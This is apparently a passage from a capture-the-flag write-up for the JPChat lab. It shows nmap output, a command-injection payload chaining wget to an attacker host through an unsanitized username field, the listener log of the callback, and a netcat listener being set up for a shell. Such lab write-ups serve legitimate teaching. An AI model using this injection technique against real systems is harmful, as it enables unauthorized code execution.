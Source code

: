 ```bash

NSE: Script Post-scanning.
Initiating NSE at 18:27
Completed NSE at 18:27, 0.00s elapsed
Initiating NSE at 18:27
Completed NSE at 18:27, 0.00s elapsed
Initiating NSE at 18:27
Completed NSE at 18:27, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.24 seconds
           Raw packets sent: 65538 (2.884MB) | Rcvd: 65535 (2.621MB)
```

## Establish a foothold and get user.txt

Looking at the output above, I do a google search for JPChat. I found [this repository](https://github.com/Mozzie-jpg/JPChat) for this room.

Looking at the code, I see that it doesn't validate or sanitize user input. This means that I can get this to run code if I provide the right payload. I want to test some payloads so I start a listener on port 8000. The goal is for the payload to call this listener.

```bash
$ nc -lvnp 8000
```

When I report a user, the server code takes my input and echos that to a file. They ask for a username as input and then a description of what the user did. I will send my payload for the username and nothing as the description since it doesn't validate input.

I am going to make a wget request to prove that this is vulnerable. I will have it echo hello and then run my command. I provide the following payload:

```bash
'hello' && wget http://<attack_machine_ip>:8000/404.py
```

I check the listener and it had the following:

```bash
Connection received on target.thm 60808
GET /404.py HTTP/1.1
User-Agent: Wget/1.17.1 (linux-gnu)
Accept: */*
Accept-Encoding: identity
Host: <attack_machine_ip>:8000
Connection: Keep-Alive
```

That worked, I change the listener to port 4444. The port number doesn't matter, 4444 is a preference that I have. It is the first port number that like to use when I get a foothold on a machine.

```bash
$ nc -lnvp 4444
```
